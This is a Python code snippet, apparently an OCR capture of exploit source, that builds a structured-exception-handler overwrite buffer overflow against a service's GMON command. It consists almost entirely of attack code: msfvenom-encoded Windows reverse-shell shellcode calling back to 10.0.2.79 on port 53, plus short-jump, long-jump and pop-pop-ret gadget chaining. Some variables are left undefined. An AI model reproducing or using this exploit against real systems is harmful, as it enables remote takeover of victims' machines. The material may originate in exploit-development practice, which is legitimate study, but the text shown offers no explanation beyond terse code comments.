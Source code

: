 ```python

# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.79 LPORT=53 -f py -v payload -e x86/shikata_ga_nai -b '\x00\x0A' EXITFUNC=seh
payload =  b""
payload += b"\xbd\xc6\xb8\x8f\xc1\xdb\xd2\xd9\x74\x24\xf4\x5a"
payload += b"\x29\xc9\xb1\x52\x31\x6a\x12\x03\x6a\x12\x83\x2c"
payload += b"\x44\x6d\x34\x4c\x5d\xf0\xb7\xac\x9e\x95\x3e\x49"
payload += b"\xaf\x95\x25\x1a\x80\x25\x2d\x4e\x2d\xcd\x63\x7a"
payload += b"\xa6\xa3\xab\x8d\x0f\x09\x8a\xa0\x90\x22\xee\xa3"
payload += b"\x12\x39\x23\x03\x2a\xf2\x36\x42\x6b\xef\xbb\x16"
payload += b"\x24\x7b\x69\x86\x41\x31\xb2\x2d\x19\xd7\xb2\xd2"
payload += b"\xea\xd6\x93\x45\x60\x81\x33\x64\xa5\xb9\x7d\x7e"
payload += b"\xaa\x84\x34\xf5\x18\x72\xc7\xdf\x50\x7b\x64\x1e"
payload += b"\x5d\x8e\x74\x67\x5a\x71\x03\x91\x98\x0c\x14\x66"
payload += b"\xe2\xca\x91\x7c\x44\x98\x02\x58\x74\x4d\xd4\x2b"
payload += b"\x7a\x3a\x92\x73\x9f\xbd\x77\x08\x9b\x36\x76\xde"
payload += b"\x2d\x0c\x5d\xfa\x76\xd6\xfc\x5b\xd3\xb9\x01\xbb"
payload += b"\xbc\x66\xa4\xb0\x51\x72\xd5\x9b\x3d\xb7\xd4\x23"
payload += b"\xbe\xdf\x6f\x50\x8c\x40\xc4\xfe\xbc\x09\xc2\xf9"
payload += b"\xc3\x23\xb2\x95\x3d\xcc\xc3\xbc\xf9\x98\x93\xd6"
payload += b"\x28\xa1\x7f\x26\xd4\x74\x2f\x76\x7a\x27\x90\x26"
payload += b"\x3a\x97\x78\x2c\xb5\xc8\x99\x4f\x1f\x61\x33\xaa"
payload += b"\xc8\x84\xc4\xb6\x47\xf1\xc6\xb6\x57\x34\x4e\x50"
payload += b"\x3d\x26\x06\xcb\xaa\xdf\x03\x87\x4b\x1f\x9e\xe2"
payload += b"\x4c\xab\x2d\x13\x02\x5c\x5b\x07\xf3\xac\x16\x75"
payload += b"\x52\xb2\x8c\x11\x38\x21\x4b\xe1\x37\x5a\xc4\xb6"
payload += b"\x10\xac\x1d\x52\x8d\x97\xb7\x40\x4c\x41\xff\xc0"
payload += b"\x8b\xb2\xfe\xc9\x5e\x8e\x24\xd9\xa6\x0f\x61\x8d"
payload += b"\x76\x46\x3f\x7b\x31\x30\xf1\xd5\xeb\xef\x5b\xb1"
payload += b"\x6a\xdc\x5b\xc7\x72\x09\x2a\x27\xc2\xe4\x6b\x58"
payload += b"\xeb\x60\x7c\x21\x11\x11\x83\xf8\x91\x2f\x75\x30"
payload += b"\x0c\xa7\x2c\xa1\x6d\xa5\xce\x1c\xb1\xd0\x4c\x94"
payload += b"\x4a\x27\x4c\xdd\x4f\x63\xca\x0e\x22\xfc\xbf\x30"
payload += b"\x91\xfd\x95"

ppr_address = 0x625010b4
ppr_gadget = struct.pack("<I", ppr_address)

buf = b""
buf += b"GMON /."

# step 3
# execute payload
buf += NOP * 32
buf += payload
buf += b"A" * (offset - 16 - 32 - len(payload)) # filler

# Step 2 -- long jump
# jump back 3533 bytes to the start of the AAAA
# nasm>  jmp -3533
buf += b"\xE9\x2E\xF2\xFF\xFF"
buf += NOP * 11

# Step 1 -- NSEH Overwrite -- short jump
# jump back 16 bytes
# nasm>  jmp $-16
buf += b"\xEB\xEE" + NOP + NOP

# Step 0 -- SEH Overwrite -- jump to pop pop return
buf += ppr_gadget

buf += b"D" * (size - offset - 8) # filler
buf += line_ending
```